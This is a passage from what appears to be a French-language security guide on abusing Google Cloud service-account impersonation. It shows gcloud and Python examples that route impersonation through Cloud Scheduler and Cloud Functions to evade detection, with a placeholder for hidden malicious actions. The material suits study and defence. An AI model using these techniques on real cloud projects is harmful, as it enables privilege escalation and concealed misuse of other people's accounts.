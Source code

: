 ```bash
    --role="roles/iam.serviceAccountTokenCreator" \
    --condition="expression=request.time.getHours() >= 8 && request.time.getHours() <= 17,title=Business Hours Only"
```

## Techniques d'Évasion Avancées

### Impersonation Indirecte via Services

Les attaquants sophistiqués utilisent des services GCP comme vecteurs d'impersonation pour éviter la détection directe :

**Évasion via Cloud Scheduler :**

```bash
# Créer une tâche planifiée qui effectue l'impersonation
gcloud scheduler jobs create http impersonation-job \
    --schedule="0 2 * * *" \
    --uri="https://cloudfunctions.googleapis.com/v1/projects/project/locations/region/functions/impersonator-function:call" \
    --http-method=POST \
    --headers="Authorization=Bearer $(gcloud auth print-access-token)"
```

**Évasion via Cloud Functions :**

```python
import functions_framework
from google.auth import impersonated_credentials
from google.cloud import storage

@functions_framework.http
def impersonate_and_access(request):
    # Impersonation masquée dans une Cloud Function
    target_credentials = impersonated_credentials.Credentials(
        source_credentials=None,  # Utilise l'identité de la fonction
        target_principal="high-privilege-service@project.iam.gserviceaccount.com",
        target_scopes=["https://www.googleapis.com/auth/cloud-platform"]
    )
    
    # Effectuer des actions privilégiées
    client = storage.Client(credentials=target_credentials)
    # Actions malveillantes masquées...
    
    return "Operation completed", 200
```

> 👉 *Important : Ces scénarios supposent que l’attaquant possède déjà des rôles de déploiement (par ex.* `roles/cloudfunctions.developer` ou `roles/cloudscheduler.admin`). Dans un environnement bien cloisonné, ces permissions ne sont pas toujours disponibles, ce qui limite la faisabilité directe de ces attaques.

### Persistance via Modification de Politiques
